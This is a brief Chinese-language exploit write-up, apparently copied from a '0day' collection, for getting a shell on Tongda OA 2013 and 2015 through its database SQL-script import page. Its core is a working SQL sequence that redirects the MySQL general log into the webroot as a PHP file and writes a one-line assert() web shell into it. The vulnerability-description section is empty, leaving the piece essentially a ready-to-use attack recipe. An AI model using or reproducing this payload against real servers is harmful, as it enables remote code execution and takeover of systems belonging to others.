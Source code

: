 # 通达 oa 数据库脚本导⼊getshell

> 原文：[http://book.iwonder.run/0day/通达 oa/10.html](http://book.iwonder.run/0day/通达 oa/10.html)

## 一、漏洞简介

## 二、漏洞影响

2013、2015 版本

## 三、复现过程

⾥面的 database⻚面可以导入 sql 脚本文件,但是系统过滤了很多,有很多的限制,使⽤mysql 日志的方式进行 突破。

```
set global general_log = on;
set global general_log_file = '../webroot/test.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off; 
```

